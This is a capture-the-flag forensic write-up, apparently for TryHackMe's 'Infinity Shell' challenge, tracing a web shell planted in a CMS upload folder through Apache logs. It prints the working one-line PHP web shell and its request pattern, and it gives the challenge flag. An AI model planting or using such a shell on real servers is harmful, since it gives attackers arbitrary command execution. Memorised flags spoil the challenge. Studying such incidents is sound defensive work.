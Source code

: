 # Infinity Shell

## Challenge Description
> ![image](https://github.com/user-attachments/assets/92609788-aa10-4422-adad-aafaec8af99a)

## Solution
Since the web app was compromised, we start by checking the default web directory:

![image](https://github.com/user-attachments/assets/44d5791b-f938-4946-9737-8f3fa8254e5e)

Inside, we find a folder called CMSsite-master, which has many files.

![image](https://github.com/user-attachments/assets/fe369089-6753-487d-8fb2-aaeba31c1fa0)

Since the attacker uploaded a web shell, the most likely place to check is where file uploads are stored. The `img` folder is a good place to start.

A suspicious file catches our eye—`images.php`. Unlike the other files in this directory, which should contain only image files, this one has a `.php` extension. This is a major red flag.

![image](https://github.com/user-attachments/assets/cb537cdd-3a6e-41fd-ba7c-52bd14bd2070)

Let’s examine its contents:
```bash
cd /var/www/html/CMSsite-master/img
cat images.php
```

![image](https://github.com/user-attachments/assets/cb5a7693-0527-41fc-bbb6-fc9d8bb864d9)

Contents of images.php:
```bash
<?php system(base64_decode($_GET['query'])); ?>
```

This script takes input from a query parameter, decodes it from Base64, and executes it using the `system()` function. In other words, the attacker can send arbitrary commands to the server using a simple HTTP request:
```
/images.php?query=[Base64 command]
```

This script takes input from a query parameter, decodes it from Base64, and executes it using the system() function. In other words, the attacker can send arbitrary commands to the server using a simple HTTP request:

Now that we know how the attacker controlled our system, our next step is to track their activity. Since we’re dealing with an Apache2 web server, its logs will provide a timeline of events. Let’s check `/var/log/apache2`
```
cd /var/log/apache2
ls
```

![image](https://github.com/user-attachments/assets/37c073fa-f853-4bd8-ac0c-7cbeb914a4df)

Among the log files, other_vhosts_access.log.1 stands out as it contains strings `images.php` using `grep`. 
```
cat other_vhosts_access.log.1 | grep "images.php"
```

![image](https://github.com/user-attachments/assets/4f1e1570-dd64-441e-a491-76ccd5d742aa)

The log reveals multiple requests containing Base64-encoded commands.

To decode them, we can use [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)). Copying and pasting the encoded strings into CyberChef, we unveil the commands executed by the attacker.

The third query reveals the flag: 
```
THM{sup3r_34sy_w3bsh3ll}
```

![image](https://github.com/user-attachments/assets/eb8ffa2b-8053-420a-95d5-4684bd4c25db)

## Conclusion
This challenge shows how dangerous it is to allow file uploads without proper security checks. 
A simple PHP script gave the attacker full control over the server. By following the logs and decoding the commands, we found out what happened and recovered the flag.

## Flag
THM{sup3r_34sy_w3bsh3ll}
